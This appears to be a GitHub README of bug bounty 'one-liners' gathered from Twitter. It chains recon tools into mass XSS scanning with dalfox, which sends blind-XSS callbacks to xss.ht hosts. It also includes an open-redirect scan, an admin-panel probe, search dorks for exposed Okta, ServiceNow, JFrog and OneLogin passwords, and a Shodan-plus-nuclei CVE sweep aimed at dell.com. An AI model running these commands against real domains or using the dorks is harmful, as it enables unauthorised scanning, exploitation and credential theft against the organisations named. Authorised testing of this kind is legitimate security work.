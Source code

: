 # BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
## XSS ONE LINER WITH KXSS

```
assetfinder -subs-only domain.com | waybackurls | grep "=" | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://syarifsajjad.xss.ht/
```

## OPEN REDIRECT ONE LINER

```
subfinder -all -d target.com -silent | waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```

## ADMIN PANEL

```
cat hosts.txt | httpx -ports 80,443,8080,8443,8090 -path /web-console/ -status-code -title -nc -t 250 -mc 200 
```

## RANDOM BUG BOUNTY HUNTING (Special tweet from Orwa Atyat) :)

```
**OKTA**
http://okta.com password NOT help.okta NOT developer.okta NOT support.okta NOT www.okta
**ServiceNOW**
service-now password
**Jfrog**
http://jfrog.io password
**onelogin**
http://onelogin.com password
```

## XSS PARAMSPIDER + GF XSS + DALFOX

```
python paramspider --domain target.com -o output
cat output | gf xss > gf_xss.txt
cat gf_xss.txt | dalfox -b yoursite.xss.ht
```
## SHODAN + NUCLEI = JUICY CVE

```
echo 'ssl:"dell.com" 200' | uncover -e shodan | httpx -silent | nuclei --severity medium,high,critical
```
## GIT DORKS

```
https://github.com/search?o=desc&q=att.com&s=indexed&type=Code
```
